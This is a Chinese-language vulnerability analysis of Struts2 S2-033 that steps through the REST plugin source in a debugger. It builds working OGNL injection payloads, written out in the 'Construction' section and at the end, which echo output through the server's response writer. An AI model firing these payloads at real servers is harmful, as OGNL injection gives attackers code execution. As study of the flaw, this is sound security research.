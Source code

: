 > 本次使用的环境为`IDEA+struts-2.3.28+tomcat8`，测试的漏洞为s2-033漏洞

##漏洞发生点

首先按照官方所说，漏洞发生点为`RestActionMapper`类下的`getMapping`函数，我们就在此函数下获取用户输入开始打断点，然后逐步调试：

Path:
**/home/lang/.m2/repository/org/apache/struts/struts2-rest-plugin/2.3.28/struts2-rest-plugin-2.3.28.jar!/org/apache/struts2/rest/RestActionMapper.class**

```java
public ActionMapping getMapping(HttpServletRequest request,
            ConfigurationManager configManager) {
        ActionMapping mapping = new ActionMapping();
        String uri = RequestUtils.getUri(request);

        uri = dropExtension(uri, mapping);
        if (uri == null) {
            return null;
        }

        parseNameAndNamespace(uri, mapping, configManager);
```
在`String uri = RequestUtils.getUri(request);`处打断点，因为`RequestUtils.getUri()`的作用就是获取`request`对象的**uri**，我们正
常访问，追踪数据流程看看。一开始什么都没看出来，然后逐一进入函数追踪查看，发现了问题。

我正常访问的URL是:**http://localhost:8080/orders/5**，那么开始获取到的uri是`orders/5`，追踪数据进入到`handleDynamicMethodInvocation`
中时，发现了奇怪的地方：
![60605652.png](s2-033数据追踪加分析_files/60605652.png)
可以看到，`mapping.setName(actionName);`中没有传入数据，而是直接进入到`else`判断里，我们看一下判断条件也就是`allowDynamicMethodCalls`
的状态：

```java
    private boolean allowDynamicMethodCalls = false;
```
为什么注意这儿？因为这儿的`mapping.setMethod(actionMethod);`就是s2-032的问题所在，这儿的`actionMethod`我们是可控的，而`setMethod`后
的值将会被带入到`ognl`表达式中，形成表达式注入而产生命令执行

此处参考

. [Ognl 漏洞浅析和解决方案](http://blog.csdn.net/xlxxcc/article/details/52244965)

Path:**/home/lang/.m2/repository/org/apache/struts/xwork/xwork-core/2.3.28/xwork-core-2.3.28-sources.jar!/com/opensymphony/xwork2/DefaultActionInvocation.java**

```java
    protected String invokeAction(Object action, ActionConfig actionConfig) throws Exception {
        String methodName = proxy.getMethod();

        if (LOG.isDebugEnabled()) {
            LOG.debug("Executing action method = #0", methodName);
        }

        String timerKey = "invokeAction: " + proxy.getActionName();
        try {
            UtilTimerStack.push(timerKey);

            Object methodResult;
            try {
                methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);
            }
```
但是问题是这一切发生的先决条件就是开启动态方法调用，但是默认是`False`

## 三次断点
在`methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);`处再下一个断点，访问`!{{1+1}}`，看看流程
最后进入到表达式执行的`methodName`的值是`show`，因此只是单纯的展示，而`!{{1+1}}`则在`handleDynamicMethodInvocation()`中就被抛弃了

那如果是这样的话，我们该如何能让函数保留下来并且执行呢？我们回头去寻找抛弃的点：

![69407650.png](s2-033数据追踪加分析_files/69407650.png)
可以看到，在这儿虽然`actionMethod`还是`{{1+1}}`但是`mapping`中的`method`已经变成了`null`，至此出去后`mapping`中就不再含有`{{1+1}}`
既然不能控制`method`，那就得想办法在`name`上做手脚，因为是REST模式，个人使用两个方法：
* orders/5/{{1+1}}
* oders/5{{1+1}}

分别尝试后追踪数据。
## Debug
先看第二种方式，追了之后发现了一个问题，虽然输入的数据能被一直保留，但是却会在中途当作是`id`的值封装入一个`request`对象里，那造成的结果就是因为没有这个`id`所以虽然查不出东西但是能正常输出页面，因为最后调用的`action`还是`show`

第一种方式倒是出乎了我的意料，因为当我访问了**http://localhost:8080/orders/5/{{4+1}}**,页面赫然是`500`报错，并且显示的正是`OGNL表达式`错误
![71119856.png](s2-033数据追踪加分析_files/71119856.png)
输出的是`{{4+1}}()`，正好符合：
```java
methodResult = ognlUtil.getValue(methodName + "()", getStack().getContext(), action);
```
这说明了我们输入的`{{4+1}}`最终成功进入到了`ognlUtil.getValue()`之中，并且根据源码可以看到，会给输入的语句在最后添加一个`()`，那么现在就是跟觉OGNL表达式构造一个页面输出的POC来

## 构造
```OGNL
%23a%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),%23a.print(123%2b123),%23a.close
```
结果发现其中的双引号被实体化了，导致报错，这就很尴尬，那就拼接
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b123),%23a.close&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
原本以为能成功，结果显示的是`404`，一时之间懵住，去查证已经爆出的POC，发现有个`xx.toString.json?`，我尝试拼接一下
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b123),%23a.close(),xx.toString.json?&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
页面成功回显`246`

## 什么是`xx.toString.json?`

用上面的再去调试，忽然发现自己忘了东西了，因为提交的请求最早进入的函数是`dropExtension()`，而这个函数的作用便是按照提交请求的最后一个`.`的后缀来确定是否为合法请求，或者说是可解析请求
```java
    protected String dropExtension(String name, ActionMapping mapping) {
        if (extensions == null) {
            return name;
        }
        for (String ext : extensions) {
            if ("".equals(ext)) {
                // This should also handle cases such as /foo/bar-1.0/description. It is tricky to
                // distinquish /foo/bar-1.0 but perhaps adding a numeric check in the future could
                // work
                int index = name.lastIndexOf('.');
                if (index == -1 || name.indexOf('/', index) >= 0) {
                    return name;
                }
            } else {
                String extension = "." + ext;
                if (name.endsWith(extension)) {
                    name = name.substring(0, name.length() - extension.length());
                    mapping.setExtension(ext);
                    return name;
                }
            }
        }
        return null;
    }
```
跟进下，其中验证的为`xhtml`，`json`，`xml`,`""`，若不在四种之内，返回`null`，程序结束，因此才会是`json`，实际上`xml`，`xhtml`也都可以

然后我就发现我错了，因为遗漏了后缀的问题，才会导致上面这段的不理解，实际上，最后给出来的`payload`：
```OGNL
%23a%3d%23context[%23parameters.o[0]].getWriter(),%23a.print(123%2b523),%23a.close.xml?&o=com.opensymphony.xwork2.dispatcher.HttpServletResponse
```
就这样就好了